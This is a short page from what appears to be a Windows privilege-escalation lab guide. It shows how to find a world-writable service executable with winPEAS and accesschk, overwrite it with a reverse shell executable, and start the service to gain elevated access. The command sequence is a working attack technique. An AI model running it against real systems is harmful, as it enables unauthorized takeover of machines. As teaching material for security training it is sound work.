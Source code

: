 # Insecure Service Executables

If the original service executable is modifiable by our user, we can simply replace it with our reverse shell executable. Remember to create a backup of the original executable if you are exploiting this in a real system!

Run winPEAS to check for service misconfigurations:

```text
winPEASany.exe quiet servicesinfo
```

![](../../../../.gitbook/assets/image%20%2886%29.png)

Note that the “filepermsvc” service has an executable which appears to be writable by everyone. We can confirm this with accesschk.exe:

```text
accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
```

![](../../../../.gitbook/assets/image%20%2891%29.png)

Create a backup of the original service executable:

```text
copy "C:\Program Files\File Permissions Service\filepermservice.exe" C:\Temp
```

Copy the reverse shell executable to overwrite the service executable:

```text
copy /Y C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe"
```

![](../../../../.gitbook/assets/image%20%2896%29.png)

Start a listener on Kali, and then start the service to trigger the exploit:

```text
net start filepermsvc
```

![](../../../../.gitbook/assets/image%20%2883%29.png)











